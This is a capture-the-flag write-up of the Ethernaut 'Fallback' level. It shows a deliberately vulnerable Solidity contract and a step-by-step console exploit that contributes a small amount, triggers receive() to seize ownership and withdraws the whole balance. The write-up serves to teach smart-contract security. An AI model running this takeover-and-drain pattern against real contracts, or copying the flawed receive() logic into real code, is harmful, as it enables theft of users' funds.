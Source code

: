 # Level 1 - Fallback ⏺

{% embed url="https://ethernaut.openzeppelin.com/level/1" %}

### Level Setup

{% hint style="info" %}
Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0



Things that might help:

* How to send ether when interacting with an ABI
* How to send ether outside of the ABI
* Converting to and from wei/ether units (see `help()` command)
* Fallback methods
{% endhint %}

### Level Contract

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
{% endcode %}

### Solution

The exploit in this contract is in the `receive()` function as it changes the owner to _**any**_ `msg.sender` provided that the `msg.sender` has previously been added to the `contributions` mapping.

1. Start by contributing to the contract as this is needed to pass the `require` check in the `receive()` function. The contribution must be less than `0.001 ETH` to pass the `require` on the `contribute()` function (`line 23`).

{% code title="Paste into Chrome JavaScript console" %}
```javascript
contract.contribute({
    value: 500000000000000, // 0.0005 ETH
})
```
{% endcode %}

2. Become the owner by sending an amount of ETH directly to the contract which will [get picked up by](../../solidity-notes/fallback.md) the `receive()` function (`line 38`).

{% code title="Paste into Chrome JavaScript console" %}
```javascript
sendTransaction({
    to: contract.address,
    from: player,
    value: 100000000000000 // 0.0001 ETH
})
```
{% endcode %}

3. Now you are the owner, withdraw all the funds.

{% code title="Paste into Chrome JavaScript console" %}
```javascript
contract.withdraw()
```
{% endcode %}

4. Submit instance... 🥳

### Notes

* This exploit shows how logic in the `receive()` function should be carefully reviewed as even though it can't be easily called through a standard contract function call, it's still possible to call it.
* The logic doesn't make much sense as I don't see what was trying to be achieved. Maybe to have a "secret" way to change the owner?
